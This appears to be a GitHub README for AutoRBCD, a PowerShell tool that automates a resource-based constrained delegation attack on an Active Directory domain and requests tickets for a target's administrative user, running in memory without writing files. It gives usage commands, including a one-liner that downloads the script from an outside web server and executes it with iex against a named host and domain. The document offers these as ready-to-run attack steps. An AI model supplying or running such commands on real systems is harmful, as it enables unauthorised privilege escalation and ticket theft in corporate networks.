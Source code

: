 # AutoRBCD
Automagically executes the resource based constrained delegation attack in the current context.
And requests tickets for the administrative user of the Target.
No files are written to disk, everything is executed from memory.

```PS . ./AutoRBCD.ps1 | Invoke-AutoRBCD -WebServer 192.168.49.68 -Target appsrv01 -Domain prod.corp3.com```

```PS (New-Object System.Net.WebClient).DownloadString("http:<serverip>/AutoRBCD.ps1") | iex; Invoke-AutoRBCD -WebServer 192.168.49.68 -Target appsrv01 -Domain prod.corp3.com```
